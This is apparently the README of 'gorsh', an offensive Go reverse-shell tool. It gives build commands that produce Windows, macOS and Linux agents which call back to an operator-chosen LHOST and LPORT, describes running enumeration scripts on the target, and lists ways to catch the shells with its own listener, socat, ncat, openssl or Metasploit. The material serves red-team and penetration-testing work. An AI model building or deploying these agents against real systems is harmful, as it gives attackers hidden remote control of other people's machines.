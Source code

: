 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Fork Changes

**Requires go1.11+**

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

```bash
git clone git@github.com:audibleblink/gorsh.git
```

**Be sure to read the Makefile**. It gives you a good idea of what's going on.

Using the zstd build tag and windll make target require cgo.
Make sure you're familiar with cross-compilation and cgo and have the toolchains for it, or read
[here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

First, generate your certs and ssh keys for the reverse proxy.

```bash
$ make depends
```

Follow the make command's printed instructions on creating an ssh user for the reverse proxy
connection.

**Create** `configs/ssh.json`. There's an example json file the `configs` directory.

**RUN** `go generate` to generate code from static assets that will be embedded in the binary

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
```

#### Enumeration Scripts

The `enum` command will present a selection dialog that allows once to run enumeration scripts based
on the host OS. You can update scripts in `scripts/prepare_enum_scripts.sh` and run 
`make enumscripts`. Addition of scripts will require modification of
`./internal/enum/enum_{windows,linux}.go`


#### Catching the shell

This project ships with a server that catches the reverse shell and still provides shell-like
capabilities you lose with traditional reverse shells, including:

* Tab Completion
* Vi-mode readline editing
* History
* Cursor movements

Generate the server with:

```sh
make server
build/srv/gorsh-listen --help
```

The gorsh-listener is a one-to-one relationship, like a traditional shell. For multiple shells, you
need to start multiple servers on different ports. 

To have the ability to receive multiple shells on the same port, there's the `make listen` target.
The `make listen` target kicks off a socat TLS pipe and creates new tmux windows with each new
incoming connection.  Feed it a port number as PORT. 
`socat` is essentially acting as a TLS-terminating reverse proxy. The incoming connections are then
handed off to gorsh-listener through randomly generated Unix Domain Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux or gorsh-listen using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

## Credits

* Initial Work - [@lesnuages](https://github.com/lesnuages)
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* [@mzpqnxow](https://github.com/mzpqnxow) for figuring out my x-compilation and dependancy problems and troubleshooting guide
* Enumeration scripts courtesy of [@411hall](https://twitter.com/411hall) [@harmj0y](https://twitter.com/harmj0y) [@rebootuser](https://twitter.com/rebootuser)
